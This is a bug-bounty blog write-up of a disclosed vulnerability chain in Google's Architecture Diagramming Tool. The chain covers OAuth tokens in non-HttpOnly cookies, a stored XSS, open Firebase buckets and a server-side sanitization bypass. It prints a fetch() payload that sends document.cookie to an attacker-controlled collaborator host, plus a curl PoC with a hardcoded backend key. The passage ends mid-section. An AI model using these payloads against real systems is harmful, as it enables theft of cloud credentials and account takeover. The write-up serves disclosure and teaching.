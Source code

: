 ```yaml
---
layout: post
title: Sketchy Cheat Sheet - Story of a Cloud Architecture Diagramming Tool gone wrong  
---
```


## Table of Contents

- [Preface](#preface)
- [Unplanned Bug Bounty hunt](#unplanned-bug-bounty-hunt)
    * [Backtracking from impact to attack scenario](#backtracking-from-impact-to-attack-scenario)
    * [Hunting for the XSS](#hunting-for-the-xss)
    * [Proving exploitability](#proving-exploitability)
    * [Attack scenario diagram #1](#attack-scenario-diagram-1)
    * [Nice catch!](#nice-catch!)
- [Digging into the share links feature](#digging-into-the-share-links-feature)
    * [Firebase (in)secure storage](#firebase-insecure-storage)
    * [Firebase security rules](#firebase-security-rules)
    * [Demo app repurposed](#demo-app-repurposed)
    * [Unauthorized access to 30k share links](#unauthorized-access-to-30k-share-links)
- [Surprising bypass](#surprising-bypass)
    * [PoC](#poc)
    * [Attack scenario diagram #2](#attack-scenario-diagram-2)
- [Poisoning predefined architectures](#poisoning-predefined-architectures)
    * [Benevolent injection](#benevolent-injection)
    * [Attack scenario diagram #3](#attack-scenario-diagram-3)
- [Getting access to the source code](#getting-access-to-the-source-code)
- [Bucket traversal](#bucket-traversal)
    * [Generate Terraform feature](#generate-terraform-feature)
    * [White-box assessment](#white-box-assessment)
    * [Unauthorized access to Terraform Artifacts](#unauthorized-access-to-terraform-artifacts)
    * [Stumbling on a silently fixed vuln in Go Cloud Storage client library](#stumbling-on-an-n-day-in-go-cloud-storage-client-library)
    * [Attack scenario diagram #4](#attack-scenario-diagram-4)
- [Closing remarks](#closing-remarks)
- [Full timeline](#full-timeline)

---

# Preface

This blogposts goes over the details of a responsible disclosure process which took place between November 2023 and July 2024.

Throughout this period, I've reported a series of vulnerabilities & misconfigurations in Google's [Architecture Diagramming Tool](https://github.com/priyankavergadia/google-cloud-4-words/blob/master/ADT/ADT%20User%20Guide%20-%20External.pdf) [^1]

The severity of disclosed shortcomings & potential customer impact, resulted in said service getting quarantined 🚧 and ulitmately decommissioned in October 2024 [^2]

<p align="center">
<a href="https://googlecloudcheatsheet.withgoogle.com/architecture" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/under_maintenance.png"/>
</a>
</p>

> ⚠️ **Disclaimer:** \
Information shared within this writeup is meant for educational purposes only.\
I performed this research independently.\
The views and opinions expressed do not necessarily reflect those of my employer.

---

# Unplanned Bug Bounty hunt
It was a an early morning back in mid November 2023, when I decided that it's high time to prepare a diagram of a solution, that I was working on for quite some time at this point.

As usual, I went ahead and opened my goto Diagramming Tool ie. [https://googlecloudcheatsheet.withgoogle.com/architecture](https://googlecloudcheatsheet.withgoogle.com/architecture)

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/architecture_tool.gif" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/architecture_tool.gif"/>
</a>
</p>

To my surprise, a [Sign-in](https://developers.google.com/identity/gsi/web/guides/overview) button welcomed me for the first time (at this point I was using this tool quite frequently for at least a year)

Soon it became obvious that singinn in is not the only thing that changed in version `0.2.3`

Some functionality like uploading diagrams to *Google Drive* stopped working while other features like `Generate Terraform` got intrudocued.

Quick check on Twitter quickly proved that indeed a new version was released:

<p align="center">
<a href="https://twitter.com/pvergadia/status/1725217430547677607" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/twitter_msg_1.png" width="30%">
</a>
</p>

When I picked a GCE VM resource the UI required the configuration fields to be populated and here's where the Bug Bounty hunt kicks in.

The expression on my face, when I clicked on the `project` dropdown list must have been priceless as approx. **300 Project IDs** of the Organization that I work for got listed ready to be picked 😲

While in itself it might not seem like that big of a deal, I quickly realized that somehow this **third-party app can query my employeers GCP Org using my highly priviliged, post-MFA credentials**.

Having intregrated services with Google APIs many times before, it became apparent that somewhere in the Sign-in flow the app got a hold onto a sufficiently scoped OAuth [Access Token](https://cloud.google.com/docs/authentication/token-types#access).


## Backtracking from impact to attack scenario

At this point I got so intrigued that instead of focusing at the job at hand, I dediced to dig deeper based on potential impact if compromised.
> A partially broken app + powerfull permissions does not mix well 💥

First thing I had to check is how come this third-party application got without my explicit auathorization of such a grant.

As showcased below the Sign-in page did not mention one bit, that any type of Google Cloud specififc [Access Scopes](https://developers.google.com/identity/protocols/oauth2/scopes) would be granted.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/misleading_sign_in.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/misleading_sign_in.png" width="30%"/>
</a>
</p>

### Google flavored OAuth 2.0

It was time to investigate the actual OAuth 2.0 request flow.

Below is the URL of the [Google OAuth Choose Account screen](https://developers.google.com/workspace/guides/configure-oauth-consent):
```
https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?gsiwebsdk=3&client_id=255437329003-lvuu51v6jt8u43ee3u3r5opb33dk39jp.apps.googleusercontent.com&scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform.read-only&redirect_uri=storagerelay%3A%2F%2Fhttps%2Fgooglecloudcheatsheet.withgoogle.com%3Fid%3Dauth612636&prompt=select_account&response_type=token&include_granted_scopes=true&enable_granular_consent=true&service=lso&o2v=2&theme=mn&ddm=0&flowName=GeneralOAuthFlow
```

> Some of those query parameters are standard OAuth 2.0 while some are Google's idiosyncrasies.

Let's take a closer look at the scopes reuqested by this application:
`scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform.read-only`

Aside from typical `opeind+profile+email` the `cloud-platform.read-only` stood out.

Not only is the recommended [incremental authorization](https://developers.google.com/identity/protocols/oauth2/web-server#incrementalAuth) not implemented - what's worse the user isn't event informed that they're about to grant read-only access to GCP (!)

As it turned out, an [Access Token](https://cloud.google.com/docs/authentication/token-types#access) scoped with `cloud-platform.read-only` provided read-only access to **15 distinct Google Cloud APIs**, most notably:
- [App Engine Admin API](https://developers.google.com/identity/protocols/oauth2/scopes#appengine)
- [BigQuery API](https://developers.google.com/identity/protocols/oauth2/scopes#bigquery)
- [Cloud Bigtable Admin API](https://developers.google.com/identity/protocols/oauth2/scopes#bigtableadmin)
- [Cloud Storage JSON API](https://developers.google.com/identity/protocols/oauth2/scopes#storage)
- [Cloud Resource Manager API](https://developers.google.com/identity/protocols/oauth2/scopes#cloudresourcemanager)

I knew, that there were pretty much two viable options where the shortlived token could be stored:
1. [localStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/localStorage)/[sessionStorage](https://developer.mozilla.org/en-US/docs/Web/API/Window/sessionStorage)
2. Set in a Cookie

Quick check proved that option #2. was at play and what's important to note is that [HttpOnly](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie#httponly) attribute was not set for the Cookie in question called `accessToken`.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_cookie_params.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_cookie_params.png" width="80%"/>
</a>
</p>

Those aro so call *opaque* tokens ie. their format is proprietary and can't be decoded.\
In order to verify scopes granted one has to query Google OAuth 2.0 `tokeninfo` endpoint and that’s exactly what I did 👇

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_scopes.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/access_token_scopes.png" width="80%"/>
</a>
</p>


This made some sense since the calls to Google APIs were made dynamically on the client-side via [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?retiredLocale=pl), so Javascript had to have access to the Cookie's value.

Example snippet:
```js
            let a = new XMLHttpRequest
            return a.open("get", "https://cloudresourcemanager.googleapis.com/v1/projects"),
            // I had to figure out how this app got an Access Token without my explicit grant
            a.setRequestHeader("Authorization", "Bearer " + e),
            a.responseType = "json",
            a.onload = ()=>{
                n = (n = t2(a.response, o, s) ? n : n.concat(t3(a.response, "projects", "projectId"))).filter(e=>void 0 !== e),
                t(!1),
                n.sort(),
                r(n)
            }
            ,
            a.onerror = ()=>{
                console.error(a.response),
                t(!1)
            }
            ,
            a.send(),
            n
        }
```

The fact that the access token can be accessed from JS code is crucial since it made **any potential XSS a high severity issue**.

## Hunting for the XSS

To be quite honest, [Cross Site Scripting](https://owasp.org/www-community/attacks/xss/) is one of my least favorite attack vectors.\
Bypassing [WAFs](https://www.cloudflare.com/en-gb/learning/ddos/glossary/web-application-firewall-waf/), [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) and keeping up to date with all the quirks of *latest & greatest* JS frameworks isn't exactly my cup of tea.

Having said that, I decided to look for a publicly known & exploitable XSS in the underlying dependencies.

I knew that this diagramming tool is based on a widely popular Open Source project [Excalidraw](https://github.com/excalidraw), which they proudly highlight in their [GH README](https://github.com/excalidraw/excalidraw?tab=readme-ov-file#whos-integrating-excalidraw)

> 💡 **Tip:** When dealing with OSS it's typically a good idea to start the evaluation by looking at Issues, PRs & Security Advisories.

Quick check showed that a "promising" [Security Advisory: GHSA-v7v8-gjv7-ffmr](https://github.com/advisories/GHSA-v7v8-gjv7-ffmr) & associated [CVE-2023-26140](https://nvd.nist.gov/vuln/detail/CVE-2023-26140) were published in Aug 2023.

TL;DR Versions prior to `0.15.3` were vulnerable to a [stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored) in the *embeddable links* feature.

The fix [PR](https://github.com/excalidraw/excalidraw/pull/6728) contained a full reproduction of the issue 👇

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/GHSA-v7v8-gjv7-ffmr.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/GHSA-v7v8-gjv7-ffmr.png"/>
</a>
</p>

Let's take a closer look at the payload 🧐

Paritally url-encoded:
```
javascript://%0aalert(document.domain)
```
Once rendered turns into:
```js
javascript://
alert(document.domain)
```

Nothing fancy - typical case of a [javascript pseudo-protocol](https://aszx87410.github.io/beyond-xss/en/ch1/javascript-protocol/) based XSS.

Replicating the above was trivial:

<p align="center">
<a href="https://drive.google.com/file/d/15EjPvEuK8FSWO9sL-8M_LmknYotduXoj/preview" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/self_xss_poc.gif"/>
</a>
</p>

What I had at this point was a [self-xss](https://www.youtube.com/watch?v=j8CrJv0dTEc) which in iteslf could be viewed as a security issue but arguably unlikely to be exploitable in isolation.
> 💡 **Tip:** There are some scenarios when where if chained with other minor issues / gadgets like [login & logout CSRF](https://labs.detectify.com/security-guidance/login-logout-csrf-time-to-reconsider/) could be impactful as showcased quite nicely in: https://whitton.io/articles/uber-turning-self-xss-into-good-xss/

## Proving exploitability

(Un)fortunately the application provided a feature which made exploitation possible -> *read-only share links*\
[*...The interface also lets you share your diagram with your team and colleagues or add it to documentation.*](https://cloud.google.com/blog/topics/developers-practitioners/introducing-google-cloud-architecture-diagramming-tool#:~:text=The%20interface%20also%20lets%20you%20share%20your%20diagram%20with%20your%20team%20and%20colleagues%20or%20add%20it%20to%20documentation.)

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/shareable_links.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/shareable_links.png"/>
</a>
</p>

An attacker could simply prepare a malicious diagram and share it with the victim.

At this point there was nothing else left to do other than to actually provide a fully working PoC of the Access Token being stolen & sent to an attacker controlled endpoint.

Since there were no defense in depth mechanisms eg. [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) in place, exploitation proved to be straighforward.

I ended up using a simple [Fetch API](https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API) `POST` request which contained all the Cookies set for domain `.googlecloudcheatsheet.withgoogle.com` (including `accessToken`) exfiltrating them to a [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) subdomain I controlled.

URL-decoded payload:
```js
javascript://
fetch('https://zsv3yx9zsfh8o5n7j842a52olfr6fz3o.oastify.com', { method: 'POST', mode: 'no-cors', body:document.cookie })
```

Requests received by the server:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/burp_collaborator_poc_23_11_2023.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/burp_collaborator_poc_23_11_2023.png"/>
</a>
</p>

> 📝 **Note:** If you feel like you've seen exactly such a technique being used before, it's likely because you completed one of the many great [PortSwigger Web Security Academy Lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies#:~:text=Submit%20the%20following,public%20Collaborator%20server) scenarios - clearly it pays dividend to do ones homework!

Admittedly, the interaction required was quite high ie. two clicks by the victim + some persuasion to visit the diagram in the first place.

## Attack scenario diagram #1

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenario_one.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_scenario_one.png"/>
</a>
</p>

Feeling very confident about the quality of the finding, I submitted the report the same day.

---

# Digging into the share links feature
Soon after having received my first 🎉 [Nice catch!](https://youtu.be/IoXiXlCNoXg?list=PL590L5WQmH8dsxxz7ooJAgmijwOz0lh2H&t=700) from the Google Security Team, I decided to dig deeper into the link sharing feature itself.

The reasoning behind was simple - **what if I could access diagrams of other users?**

I knew from the end-user flow that functionality seemed to have relied on some kind of [UUIDs](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html#uuids-and-guids) ie. uniqueness & sufficiently high entropy making the attempt to enumerate objects computationally infeasable.

Some examples:
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=588e8130-892a-11ee-8127-114320374db6_
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=08bcd560-8931-11ee-8515-fd9ac1a981d6_
* _https://googlecloudcheatsheet.withgoogle.com/architecture?link=9a2d1170-8983-11ee-a3fe-3bc7acaa8e95_

It quickly turned out that there were at least two issues with the implementation, of which one proved to be lethal 💀

Taking advantage of the fact that all the logic was present on the client-side, finding relevant code was easy.

Here's the *firebaseConfig* which is used for [initialization](https://firebase.google.com/docs/web/setup#access-firebase)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_admin_config.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_admin_config.png"/>
</a>
</p>

And here's the share link client-side JS snippet:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/shared_link_js.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/shared_link_js.png"/>
</a>
</p>

## Firebase (in)secure storage
By tracking the network connections using devtools, I knew that [Cloud Storage for Firebase](https://firebase.google.com/docs/storage) was used for storing the objects containing the diagrams.

It's basically a wrapper over the foundational Google Cloud API ie. Google Cloud Storage

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_cloud_storage.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/firebase_cloud_storage.png"/>
</a>
</p>


## Firebase security rules

From access controls perspective, usage of [Cloud Storage for Firebase](https://firebase.google.com/docs/storage) introduced an alternative mechanism to handle AuthN/AuthZ other than [Cloud IAM](https://cloud.google.com/storage/docs/access-control/iam) & [ACLs](https://cloud.google.com/storage/docs/access-control/lists).

[Firebase Security Rules](https://firebase.google.com/docs/rules) offer a very elegant, customizable solutiuon for handling AuthN/AuthZ.

> Here's a short primer from [Fireship](https://www.youtube.com/@Fireship)\
[Firebase Security in 100 Seconds](https://youtu.be/sw1Uy3zwsLs)

Unfortunately they are also prone to misconfigurations [^3]

Showcased is a sample lax rule allowing anyone to read and overwrite all objects within a given bucket.

<p align="center">
<a href="https://firebase.google.com/docs/rules/insecure-rules#storage" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/insecure_firebase_rules.png"/>
</a>
</p>

## Demo app repurposed

In order to find out, if one could simply list all the *shareLinks* I decided to repurpose a demo React application.

I’ve populated the *firebaseConfig* with the values present within the client-side Javascript and attempted to list all the files from path *sharedLinks/* taking advantage of the [list_all_files](https://firebase.google.com/docs/storage/web/list-files#list_all_files) method.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/react_poc_app.png" target="_blank">
<img src="https://storage.googleapis.com/sketchy_cheat_sheet/react_poc_app.png"/>
</a>
</p>

## Unauthorized access to 30k share links

As it turned out, anyone with sufficient knowledge could simply list all the objects (!)

There were approximately 30k share links stored in this bucket, dating all the way back to the inception of this tool.

Those contained [PII](https://www.dol.gov/general/ppii) & [Intellectual Property](https://www.proofpoint.com/uk/threat-reference/intellectual-property-theft) which I swiftly reported to Google.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/customer_shared_links.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/customer_shared_links.png"/>
</a>
</p>

> 📝 **Note:** If only had I known that a simple partially url-encoded GET request would work as well…
https://firebasestorage.googleapis.com/v0/b/sustained-racer-323200.appspot.com/o?prefix=sharedLinks%2F&delimiter=%2F

---

# Surprising bypass
After a few months of no status updates, I decided to take a look at the state of affairs myself.

As it turned out my initial PoC approach stopped working - I could still achieve self-XSS but when I attempted to generate a shear link, the payload was getting removed.

This effectively broke the attack chain, or at least that’s what I thought.

Slightly simplified diagram showcasing the mitigation attempt.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/mitigation_diagram.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/mitigation_diagram.png"/>
</a>
</p>

Having taken a look at the adjusted code responsible for the share link generation I asked myslef a following question:\
what if sanitization takes place only on the client-side & and there’s **no check on the server-side**? 🤔

```js
let el = e=>{
                e && e.elements && e.elements.forEach(e=>{
                    e.link && !e.link.startsWith("https") && (e.link = "")
                     // what if sanitization takes place only on the client-side & and there’s no check on the server-side? 🤔
                }
                )
            }
              , er = async e=>{
                let t = new XMLHttpRequest;
                el(e),
                t.open("POST", "".concat("https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn", "/add_architecture"));
                let o = JSON.stringify({
                    file_content: JSON.stringify(e),
                    key: "qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"
                });
                t.onload = ()=>{
                    if (200 === t.status) {
                        let e = t.response
                          , o = new URL(window.location.href);
                        o.search = "link=".concat(e);
                        let l = o.toString();
                        window.prompt("Shareable link: ", l)
                    }
                }
                ,
                t.send(o)
            }
```

This would potentially allow the attacker to generate a share link bypassing the application flow entirely.

## PoC

I quickly crafted a following direct upload, proving that one can still generate a malicious share link.

```sh
# Parameter containing the payload -> \"link\":\"javascript://%0aalert(document.cookie)\"
curl 'https://us-east1-sustained-racer-323200.cloudfunctions.net/adt-backend-gcs-handler-fn/add_architecture' \
  -H 'authority: us-east1-sustained-racer-323200.cloudfunctions.net' \
  -H 'accept: */*' \
  -H 'accept-language: en-GB,en-US;q=0.9,en;q=0.8' \
  -H 'content-type: text/plain;charset=UTF-8' \
  -H 'origin: https://googlecloudcheatsheet.withgoogle.com' \
  --data-raw '{"file_content":"{\"elements\":[{\"id\":\"CtnNvcYpx2k753tl70GBg\",\"type\":\"rectangle\",\"x\":740,\"y\":300,\"width\":580,\"height\":340,\"angle\":0,\"strokeColor\":\"#000000\",\"backgroundColor\":\"transparent\",\"fillStyle\":\"hachure\",\"strokeWidth\":2,\"strokeStyle\":\"solid\",\"roughness\":0,\"opacity\":100,\"groupIds\":[],\"strokeSharpness\":\"round\",\"seed\":986902507,\"version\":8,\"versionNonce\":102275109,\"isDeleted\":false,\"boundElements\":null,\"updated\":1712221612239,\"link\":\"javascript://%0aalert(document.cookie)\",\"locked\":false,\"endArrowhead\":\"triangle\",\"fontFamily\":2}],\"files\":{}}","key":"qvOJmj9wd8JqGldBGCkT7cowpIIThMWapXWNd5TaC4YOArYPvNXizQCbIdVSFoPeH1wpYNCxV8z5QpowCSTy7sQV8m9oyQQ4NKXmP9nEXeUaspIM17BmBvampAB8l9B5"}' \
  --compressed
```

> 💡 **Tip:** In order to facilitate triage and response, it’s vital to provide actionable reproduction steps.

## Attack scenario diagram #2

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_2.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_2.png"/>
</a>
</p>

In the meantime **impact has increased** from gaining read-only to full GCP IAM permissions of the victim, due to the fact that the application now expects the `cloud-platform` OAuth Scope to be granted (broadest one there is when it comes to GCP APIs)

[OAuth Choose Account Link](https://accounts.google.com/o/oauth2/v2/auth/oauthchooseaccount?gsiwebsdk=3&client_id=255437329003-lvuu51v6jt8u43ee3u3r5opb33dk39jp.apps.googleusercontent.com&scope=openid%20profile%20email%20https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform&redirect_uri=storagerelay%3A%2F%2Fhttps%2Fgooglecloudcheatsheet.withgoogle.com%3Fid%3Dauth612636&prompt=select_account&response_type=token&include_granted_scopes=true&enable_granular_consent=true&service=lso&o2v=2&theme=mn&ddm=0&flowName=GeneralOAuthFlow)
(still online)

---

# Poisoning predefined architectures

The application also supported predefined, opinionated architectures.

<p align="center">
<a href="https://github.com/priyankavergadia/google-cloud-4-words/blob/master/ADT/ADT%20User%20Guide%20-%20External.pdf" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/predefined_archs.png"/>
</a>
</p>

The underlying [Excalidraw JSON files](https://docs.excalidraw.com/docs/codebase/json-schema) were stored in the same Firebase Cloud Storage bucket where the share links used to reside.

What if an attacker could overwrite those objects?

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/anonymous_object_overwrite.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/anonymous_object_overwrite.png"/>
</a>
</p>

## Benevolent injection
For the PoC, I decided to pick the `GCE Simple` diagram since it contained [Managed Instance Group](https://cloud.google.com/compute/docs/instance-groups#managed_instance_groups), where a user can set a [startup script](https://cloud.google.com/compute/docs/instances/startup-scripts/linux)
```bash
curl -s https://firebasestorage.googleapis.com/v0/b/sustained-racer-323200.appspot.com/o/deployableArchs%2Fdf0442d0-dc56-11ed-908f-b73d0485deaf%2FresourcesData.json\?alt\=media | gron | grep 'metadata'
json[4][1].block.attributes.metadata_script = {};
json[4][1].block.attributes.metadata_script.description = "The metadata script of the instances in the instance group";
json[4][1].block.attributes.metadata_script.display = true; ### Could be set to false
json[4][1].block.attributes.metadata_script.message = "";
json[4][1].block.attributes.metadata_script.parameterSource = [];
json[4][1].block.attributes.metadata_script.parameterSource[0] = "billing_account";
json[4][1].block.attributes.metadata_script.parameterSource[1] = "project_id";
json[4][1].block.attributes.metadata_script.parameterSource[2] = "project_name";
json[4][1].block.attributes.metadata_script.parameterSource[3] = "folder_id";
json[4][1].block.attributes.metadata_script.parameterSource[4] = "org_id";
json[4][1].block.attributes.metadata_script.parameterSource[5] = "region";
json[4][1].block.attributes.metadata_script.parameterSource[6] = "compute_service_account";
json[4][1].block.attributes.metadata_script.placeholder = "echo \"helloworld\"";
json[4][1].block.attributes.metadata_script.required = true;
json[4][1].block.attributes.metadata_script.type = "string";
json[4][1].block.attributes.metadata_script.value = "echo \"helloworld\""; ### Arbitrary code exection on startup
```

In order to prove the fact that an attacker could overwrite files fetched & later processed, I decided to attempt an upload of a slightly adjusted version with a non-malicious, benevolent change showcased below:

```bash
➜  diff original_resources_data.json rce_metadata.json
909c909
<                         "placeholder": "echo \"helloworld\"",
---
>                         "placeholder": "echo \"helloworld!\"",
912c912
<                         "value": "echo \"helloworld\"",
---
>                         "value": "echo \"helloworld!\"",
```

As it turned out the Firebase Security Rules actually allowed anyone to overwrite those objects (!)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/resources_data_json_overwritten.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/resources_data_json_overwritten.png"/>
</a>
</p>

What’s more there were no integrity checks on the client-side (!)
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/overwritten_value_reflected_on_the_client_side.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/overwritten_value_reflected_on_the_client_side.png"/>
</a>
</p>

The ability to overwrite those predefined architectures (trusted by the application) proved to be a very powerful primitive.

Depending on creativity and time to response an attacker would'be been able to:
- Break a large part of the application by removing the architectures & images from the bucket
- Taint existing architectures with XSS payloads greatly increasing the likelihood of stealing OAuth tokens as described in previous reports [issu.ee/312687013](https://issuetracker.google.com/issues/312687013), [issu.ee/333194226](https://issuetracker.google.com/issues/333194226)
- Overwrite critical parts of existing architectures with an aim of achieving RCE & potential persistence in victim's infrastructure

## Attack scenario diagram #3

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_3.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/attack_diagram_num_3.png"/>
</a>
</p>

---

# Getting access to the source code

During some mindless poking around, I stumbled upon an email of a Googler working on the project in scope

Driven by curiosity I simply Google-searched their email and the results turned out to be quite surprising ie. indexed commits from a seemingly internal Gerrit instance. 

One of the projects contained the entire source code, both backend as well as frontend.

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/indexed_gerrit_reference.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/indexed_gerrit_reference.png"/>
</a>
</p>

Anonymous [^4] user could’ve read and `git clone` all repositories from:
 - [https://atc-team.googlesource.com](https://atc-team.googlesource.com)

One could’ve also read all the git commit messages, comments etc.:
 - [https://atc-team-review.googlesource.com](https://atc-team-review.googlesource.com)


I was able to track changes meant to mitigate / fix issues I reported:
 - [https://atc-team-review.googlesource.com/c/google-4-words/+/8280/1/hooks/useArchitecture.tsx](https://atc-team-review.googlesource.com/c/google-4-words/+/8280/1/hooks/useArchitecture.tsx)
 - [https://atc-team-review.googlesource.com/c/adt-terraform/+/8220](https://atc-team-review.googlesource.com/c/adt-terraform/+/8220)

 > After some back & forth access got restricted, so expect a `403: Forbidden` if you're not a Googler

---

# Bucket traversal
This is the finding that I’m most proud of - it's a variant of a bucket path traversal with a twist.

> Similiar scenario found by [Frans Rosén](https://twitter.com/fransrosen) back in 2018 [^5][^6]

## Generate Terraform feature
As foreshadowed in the [Unplanned Bug Bounty hunt](#unplanned-bug-bounty-hunt) section of this writeup version `0.2.3` introduced a new feature.

**TL;DR One could quickly deploy all the resources from a given diagram via a backend conversion from the proprietary Excalidraw schema to valid Terraform HCL files.**

Here's the relevant part from the end user manual:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/generate_terraform_feature.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/generate_terraform_feature.png"/>
</a>
</p>

## Cloud Storage Signed URLs
Customer generated Terraform files were stored as ZIP archives in a shared bucket called `adt-tf-artifacts`.

Access to those objects was granted using shortlived [Cloud Storage Signed URLs](https://cloud.google.com/storage/docs/access-control/signed-urls).

<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/user_generated_terraform_files.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/user_generated_terraform_files.png"/>
</a>
</p>

This effectively meant that **only the user who generated the object should be able to access it** (security boundary)

## White box assessment
Here's the client-side [XMLHttpRequest](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest?retiredLocale=pl) handling the diagram upload:
<p align="center">
<a href="https://storage.googleapis.com/sketchy_cheat_sheet/load_architecture.png" target="_blank">
  <img src="https://storage.googleapis.com/sketchy_cheat_sheet/load_architecture.png"/>
</a>
</p>

